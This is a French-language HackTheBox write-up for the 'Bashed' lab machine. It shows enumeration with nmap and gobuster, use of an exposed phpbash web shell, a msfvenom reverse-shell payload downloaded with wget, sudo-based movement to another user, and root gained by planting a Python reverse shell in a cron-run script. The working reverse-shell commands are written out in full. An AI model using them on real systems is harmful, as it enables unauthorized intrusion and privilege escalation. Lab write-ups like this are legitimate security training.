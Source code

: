 ```yaml
---
title: HTB | Bashed
description: Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted, ...
slug: bashed-htb
date: 2025-01-13 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Bashed cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Bashed</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.68</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sS -sC -sV -An -p- 10.10.10.68
...
80 -> HTTP : http://bashed.htb
```

## Foothold

### gobuster: found dev/ folder
```bash
$ gobuster dir -u http://bashed.htb -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/]
/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/]
/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]
/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/]
/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]
/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/]
/server-status        (Status: 403) [Size: 298]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

### RCE : phpbash.php
Dans le dossier dev/, on peut executer un script phpbash.php qui donne litteralement une session bash interactive en tant que www-data sur la machine :
```bash
http://bashed.htb/dev/phpbash.php

www-data@bashed:/# cd home/

www-data@bashed:/home# ls

arrexel
scriptmanager
www-data@bashed:/home# cd arrexel

www-data@bashed:/home/arrexel# ls

user.txt
www-data@bashed:/home/arrexel# cat user.txt

aef2.....8071
```

### Users : /etc/passwd
```bash
cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

### Reverse shell : msfvenom
Avec msfvenom, pour s'entrainer :
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=1337 -f elf -o test.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: test.elf
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.68 - - [11/Jan/2025 19:11:27] "GET /test.elf HTTP/1.1" 200 -

------------------------------------------

$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.68] 54598

python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@bashed:/tmp$ export TERM=xterm
export TERM=xterm
www-data@bashed:/tmp$ ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                                                                                   
┌──(kali㉿kali)-[~/htb/Bashed]
└─$ stty raw -echo; fg
[3]    continued  nc -lnvp 1337

www-data@bashed:/tmp$ whoami
www-data

---------------------------------------------

wget 10.10.14.42:8888/test.elf

--2025-01-11 16:18:10-- http://10.10.14.42:8888/test.elf
Connecting to 10.10.14.42:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: 'test.elf'

0K 100% 40.5M=0s

2025-01-11 16:18:10 (40.5 MB/s) - 'test.elf' saved [194/194]

www-data@bashed:/tmp# chmod 777 ./test.elf

www-data@bashed:/tmp# ls -la test.elf

-rwxrwxrwx 1 www-data www-data 194 Jan 11 16:10 test.elf
www-data@bashed:/tmp# ./test.elf &
```

## www-data -> scriptmanager

### Enumeration : sudo -l
On découvre qu'on peut executer n'importe quelle commande, en tant que l'utilisateur scriptmanager sans mot de passe !
```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

### shell as scriptmanager
On ouvre donc un bash en tant que scriptmanager :
```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
```

## scriptmanager -> root

### LinPEAS : /scripts folder
Avec linpeas, on découvre un dossier suspect "/scripts" à la racine, créer par le user `scriptmanager`.

On découvre qu'il contient deux fichiers test.py et test.txt :
```bash
scriptmanager@bashed:/scripts$ ls -l
total XX
-rw-r--r-- 1 scriptmanager scriptmanager 206 Jan 12 14:37 test.py
-rw-r--r-- 1 root          root           12 Jan 12 13:25 test.txt
```

### Cronjob : test.py as root
Dans test.py, on peut voir une commande qui ecrit dans un fichier test.txt une string "hello". Ce fichier existe deja, donc le script a été executé auparavant. Comme le fichier semble avoir été crée par root, on déduit que root a executé ce script python. On suppose donc que ce fichier est potentiellement un script de test executé régulièrement par root, dans une crontab. On modifie donc le fichier test.py avec un reverse shell trouvé sur le site reverse shell generator :
https://www.revshells.com/
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

-----------------------------

nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.68] 42276
## whoami
whoami
root
## cat /root/root.txt
cat /root/root.txt
4600.....78e4
```

